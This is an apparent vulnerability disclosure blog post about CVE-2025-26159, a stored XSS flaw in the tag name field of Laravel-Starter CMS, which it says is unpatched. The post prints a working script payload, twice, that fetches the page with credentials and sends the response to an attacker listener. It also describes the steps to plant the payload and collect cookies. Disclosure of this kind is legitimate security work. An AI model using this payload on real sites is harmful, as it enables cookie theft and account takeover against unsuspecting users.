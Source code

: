 ```yaml
---
title: CVE-2025-26159
categories: [Deep Dives]
tags: [cve]
image: assets/img/cve-2025-laravel/banner.png
description: CVE-2025-26159 Explotation
pin: true
---
```


**Discovered by: Fernando González Perea**

CVE-2025-26159 is a Stored Cross-Site Scripting (XSS) vulnerability in the [Laravel-Starter CMS](https://github.com/nasirkhan/laravel-starter), specifically within the tag name field. This vulnerability allows an attacker to inject and execute malicious JavaScript code in the browsers of users who visit the affected tag details page.

The issue impacts versions prior to v11.11.0 and arises due to improper sanitization of user input, which is stored on the server without adequate validation.

An attacker can take advantage of this vulnerability to steal cookies in the server by creating a a tag with the following payload in the name field.

```js
<script>fetch("/",{credentials:"include"}).then(r=>r.text()).then(d=>location='//127.1:9000/d='+escape(d))</script>
```
# Proof of Concept

To abuse this vulnerability we will just need control over an user with the following permissions.

![Pic]({{ '/assets/img/cve-2025-laravel/role_user.png' | relative_url }}){: .center-image }

Now let's create the malicious tag. With the user account, we can go to Admin Dashboard > Tags

![Pic]({{ '/assets/img/cve-2025-laravel/admin_dashboard.png' | relative_url }}){: .center-image }

![Pic]({{ '/assets/img/cve-2025-laravel/tag_menu.png' | relative_url }}){: .center-image }

Now, we can inject the malicious payload into the "name" field, also remember to add random data to the next fields.

```javascript
<script>fetch("/",{credentials:"include"}).then(r=>r.text()).then(d=>location='//127.1:9000/d='+escape(d))</script>
```

![Pic]({{ '/assets/img/cve-2025-laravel/malicious_tag.png' | relative_url }}){: .center-image }

Once the tag has been created, any user who visits the detailed page will execute the JavaScript code in his browser, but to get his cookies, we need to create a HTTP server, get the content of the web, decode it from url encode and search for the cookies. To make it easier, I have write this [script](https://github.com/godBADTRY/CVE-2025-26159) in Go that make all this.

![Pic]({{ '/assets/img/cve-2025-laravel/run_script.png' | relative_url }}){: .center-image }

And lastly, when the user clicks on "View details" bottom, we will get his cookies.

![Pic]({{ '/assets/img/cve-2025-laravel/tag_created.png' | relative_url }}){: .center-image }

![Pic]({{ '/assets/img/cve-2025-laravel/COOKIES.png' | relative_url }}){: .center-image }

| As of the date of this publication, the vulnerability remains unpatched by the vendor. {: .prompt-warning }

Despite multiple attempts to responsibly disclose the issue, the developer has failed to respond or take action.
This post is being published to raise awareness among users and administrators who rely on this software, so they can take appropriate mitigation steps on their own.

#### References

- https://nvd.nist.gov/vuln/detail/CVE-2025-26159
- https://www.cve.org/CVERecord?id=CVE-2025-26159
- https://github.com/nasirkhan/laravel-starter
